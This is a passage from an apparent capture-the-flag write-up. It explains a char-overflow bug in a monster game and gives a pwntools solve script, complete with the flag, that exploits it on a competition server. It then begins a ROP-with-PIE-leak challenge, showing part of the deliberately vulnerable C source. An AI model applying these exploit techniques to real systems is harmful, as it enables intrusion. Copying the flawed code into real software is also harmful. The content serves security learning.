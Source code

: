 and the check to get the flag is when the monster is dead:
```c
if (monster_hp <= 0) {
	printf("You defeated the monster! Victory!\n");
    printf("Here is your reward, valiant warrior: \n");
    system("cat flag.txt");
    exit(0);
}
```

of course you could also just do the normal way of trying to attack the monster but you can't attack and heal at the same time, you'd die before getting its hp to 0 :c

but do you see the issue? because the hp is a char, you can actually keep healing the monster until its hp goes past 127 until it becomes negative again!

by choosing to heal the monster then you on alternate turns, you can stay alive while ensuring that the monster's health overflows, you get the flag and everyone is happy

solve script:
```python
from pwn import *

# p = process('./game')
p = remote("chal1.sieberr.live", 15009)
def move(choice, target):
    p.recvuntil('> ')
    p.sendline(str(choice))
    p.recvuntil('> ')
    p.sendline(str(target))

# heal monster -> wrap around to negative hp, just heal ourself in the meantime
seq = [(2,2),(2,1),(2,2),(2,1),(2,2),(2,2)]
for c,t in seq:
    move(c, t)

p.interactive()
# sctf{im_n0T_fr13Nd5_w1th_tH3_m0n5t3r_th4t5_uNd3r_my_b3d}
```


## bearings check
this is definitely NOT a simple pwn anymore (but it was still the simplest in the ctf and i only solved another pwn challenge after it ended).

it needs ROP + a pie leak to get shell and cat flag.txt

pie randomises the base of the binary such that we can no longer hardcode addresses like 0x4010a for example, but instead we have to calculate relative addresses from the base and get a leak to find where everything is

code:
```c
// gcc -o chal chal.c -Wl,-z,relro,-z,now -fpie -pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

struct proving_ground {
    char name[32];
    void* main_ref;
    char pad[8];
    char vuln[32];
};

```
